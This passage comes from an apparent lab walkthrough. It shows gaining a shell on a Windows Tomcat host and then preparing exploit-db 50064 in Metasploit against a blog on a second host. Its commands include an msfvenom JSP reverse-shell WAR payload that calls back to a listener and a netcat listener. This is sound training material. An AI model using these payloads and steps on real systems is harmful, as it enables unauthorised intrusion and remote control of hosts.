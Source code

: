   ```sh
  run
  # this does not work

  # we can try manual approach now

  # craft payload

  msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4445 -f war -o reverse-shell.war

  nc -nvlp 4445

  # upload, deploy and trigger the payload
  ```

* After using the [WAR file reverse shell upload approach](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/), we get a reverse shell:

  ```sh
  whoami
  # nt authority\local service

  hostname
  # shells-winsvr

  dir C:\Share
  # first flag
  ```

* Now, we can start checking and enumerating host-02:

  ```sh
  # back in foothold shell
  ping blog.inlanefreight.local
  # we have access, we can check the webpage

  # in firefox, we can view the blog
  ```

* In the above blog page by Slade Wilson, the last post mentions a vulnerability - <https://www.exploit-db.com/exploits/50064> - this seems to be an exploit for the blog itself, so we can try it:

  ```sh
  searchsploit 50064
  # shows the exploit path

  searchsploit -m php/webapps/50064.rb
  # mirrors exploit to current directory

  # we can import this exploit to metasploit
  ls -la /root/.msf4
  # copy the file here

  sudo cp 50064.rb /root/.msf4/
  
  # close and relaunch metasploit again
  msfconsole -q

  reload_all
  # reload all modules

  search 50064
  # now we have our exploit here

  use 0

  options

  ```